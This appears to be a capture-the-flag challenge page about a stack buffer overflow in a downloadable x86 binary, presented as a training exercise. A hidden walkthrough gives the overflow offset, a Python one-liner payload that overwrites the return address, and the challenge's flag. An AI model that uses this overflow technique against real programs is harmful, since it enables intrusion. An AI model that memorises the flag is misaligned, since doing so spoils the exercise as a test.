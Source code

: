 # ♻ Memories - L13 C05

Agent 707, we've intercepted a file sent between two gang members and it's confused our agents. When you execute the program it will give you a memory address for a function. See if you can exploit the binary to run the function.

**Tip:** Use a cyclic pattern tool.

<details><summary>

## Need a hint?</summary>

```txt
💡 Hint: http://www.anonhack.in/2022/03/the-binary-exploitation-stack-based-buffer-overflow/
```

</details>

## Files

- [program-x86](/assets/memories1)

<details><summary>

## Step by Step</summary>

- Download the program onto a Linux machine
- The offset is 156 for the cyclical pattern tool
- `Run python -c "print('A'*156+'\xb1\x84\x04\x08')" | ./filename.exe`
- The flag should show up

`flag: 4UPzOlkhlUBvY8bHikd`

</details>
